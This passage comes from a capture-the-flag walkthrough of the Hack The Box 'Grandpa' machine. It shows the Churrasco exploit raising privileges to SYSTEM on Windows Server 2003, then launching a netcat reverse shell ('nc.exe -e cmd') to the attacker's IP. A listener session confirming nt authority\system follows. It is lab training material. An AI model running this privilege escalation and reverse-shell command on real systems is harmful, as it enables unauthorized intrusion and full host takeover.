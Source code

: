 ```bash
C:\WINDOWS\Temp>.\churrasco.exe -d "c:\windows\temp\nc.exe -e cmd 10.10.14.18 80"
.\churrasco.exe -d "c:\windows\temp\nc.exe -e cmd 10.10.14.18 80"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

C:\WINDOWS\Temp>

```
Let's go back to our netcat listener.

## Privilege escalation

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Grandpa/Churrasco]
└─$ sudo rlwrap nc -lvp 80                                            
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.129.254.80.
Ncat: Connection from 10.129.254.80:1050.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>

```
A connection has been established. Let's find out who we are and if possible capture the flags.

```bash
C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>hostname
hostname
granpa

C:\WINDOWS\TEMP>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : .htb
   IP Address. . . . . . . . . . . . : 10.129.254.80
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1
```